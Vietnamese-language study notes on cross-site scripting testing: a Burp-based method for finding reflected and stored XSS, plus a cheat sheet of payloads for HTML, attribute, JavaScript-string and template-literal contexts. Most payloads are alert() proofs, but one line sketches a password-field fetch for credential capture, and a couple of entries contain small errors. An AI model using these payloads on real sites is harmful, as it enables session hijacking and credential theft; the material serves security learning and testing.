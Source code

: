 ### ***References***:
[Cross Site Scripting - Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/)
[Cross-Site Scripting (XSS) Cheat Sheet - 2025 Edition](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
[XSS Filter Evasion - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
# Identification
## Reflect XSS
+ URL param: `https://insecure-website.com/search?term=gift`
1. **Kiểm thử mọi entry point**: mọi tham số trong URL (query, path), body và header.
2. **Gửi giá trị ngẫu nhiên**: mỗi entry point gửi giá trị chữ-số duy nhất (~8 ký tự). (Có thể dùng Burp Intruder để sinh giá trị và grep phản hồi.)
3. **Xác định ngữ cảnh phản chiếu**: xem giá trị xuất hiện trong HTML text, attribute có/không quote, JS string, v.v.
4. **Thử payload ứng viên**: dựa vào ngữ cảnh, chèn payload bằng Burp Repeater, gửi và kiểm tra response. Đặt payload trước/sau giá trị ngẫu nhiên, dùng tìm kiếm để định vị nhanh.
5. **Thử payload thay thế**: nếu payload bị sửa hoặc chặn, thử các biến thể phù hợp với ngữ cảnh và kiểu lọc.
6. **Chạy trên trình duyệt thật**: chuyển PoC sang trình duyệt (dán URL hoặc sửa request qua Proxy) và kiểm tra (ví dụ `alert(document.domain)`).
## Stored XSS

| **Entry points (test tất cả):** | Query string, body (form/json), URL path, HTTP headers,  Kênh ngoại băng thông (email, third-party feeds, uploads…). |
| ------------------------------- | -------------------------------------------------------------------------------------------------------------------- |
| **Exit points:**                | Mọi response trả cho bất kỳ người dùng nào (trang, API, feed, log hiển thị...)                                       |

**Quy trình ngắn:**
1. Ghi list tất cả entry point khả dụng.
2. Với mỗi entry point: gửi **giá trị riêng/duy nhất** (vd 8 ký tự) và **giám sát các response** để tìm reflection.
3. Khi thấy giá trị xuất hiện ở response nào → xác định **ngữ cảnh** (HTML text, attribute, JS string, URL, v.v.).
4. Xác minh **có được lưu (stored)** hay chỉ reflected tạm thời (tham chiếu qua request khác / refresh để kiểm tra).
5. Dựa vào ngữ cảnh, thử payload ứng viên phù hợp (dùng Burp Repeater để chỉnh & kiểm tra).
6. Nếu payload bị sửa/chặn → thử biến thể khác theo ngữ cảnh (HTML-encode, JS-escape, onerror/throw, template literal, v.v.).
7. Khi payload hoạt động trong Repeater → chuyển PoC sang **trình duyệt thật** để xác nhận thực thi (ví dụ `alert(document.domain)`).

> Ưu tiên kiểm tra các chức năng dễ lưu dữ liệu: comment, profile, posts, uploads, admin logs.
> Theo dõi khả năng ghi đè (recent list, cache) — dữ liệu lưu có thể bị thay thế nhanh.

## DOM XSS

# Tricks & Payload

#### Payload phổ biến portswigger
```html
# 1.location.search (hidden param)
&storeId=<script>alert(URLSearchParams(window.location.search))</script>

# 2.vuln in JS framework (angular 1.7.7)
{{constructor.constructor('alert(1)')()}}

# 3.eval('var searchResultsObj = ' + this.responseText);
\"-alert(1)}//

# 4.html.replace('<', '&lt;').replace('>', '&gt;');
<><img src=x onerror=alert()>')

# 5.using resize
<iframe src="/?search=<body onresize=print()>" onload=this.style.width='1%'>

# 6.location.hash
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x

# 7.xss in svg
<svg><animatetransform onend=alert(1) attributeName=transform dur=1s>

# 8.in canonical link tag
?<div accesskey='x' onclick='alert(1)'></div>

# 9.escape backslash and single quote
</script><script>alert(1)</script>

# 10. angle brackets and double quotes HTML-encoded and single quotes escaped
\';alert(1)//

# 11. string template literal with backtick
${alert()}

# 12. Making use of HTML-encoding
&apos;-alert(document.domain)-&apos; 

# 13 
<input type=password name=password onchange="if(this.value.length)fetch(...)">

```

## XSS
**1. XSS between HTML tags**
```html
<img src=x onerror=js>
<script>...</script>
<svg>...</svg>
...
```
**2. XSS in HTML tag attributes**
```html
"><script>alert(document.domain)</script> # Đóng tag cũ
" autofocus onfocus=alert(document.domain) x=" # Chèn thêm thuộc tính vào thẻ
<a href="javascript:alert(document.domain)"> # Chèn vào href -> Open redirect
```
**3. XSS in JAVASCRIPT**
###### Terminating the existing script
```html
<script>
  var input = 'controllable data here';
  var csrfElement = document.querySelector('input[name=csrf]');
  var csrfToken = csrfElement ? csrfElement.value : null;
...
</script>
```

```html
</script><img src=1 onerror=alert(document.domain)>
# đóng đoạn script trước chèn payload xss vào sau.
# thẻ html sẽ được load trước thẻ script
```
##### Breaking out of a JavaScript string
```html
'-alert(document.domain)-' 
';alert(document.domain)// # Ex: <script> var s = '\\';alert(1)//';</script>
\"-alert(1)}//
```
##### XSS without parentheses and semi-colons
```html
<script>onerror=alert;throw 1337</script> # Function without parentheses
<script>{onerror=alert}throw 1337</script> # Function without semi-colon 
<script>throw onerror=alert, (console.log('a')), 42, 'x'</script> 
```
##### XSS in JavaScript template literals
```html
${alert(document.domain)} # để ý ``
```

# Real cases
## 1. Open redirect XSS
`javascript::alert()`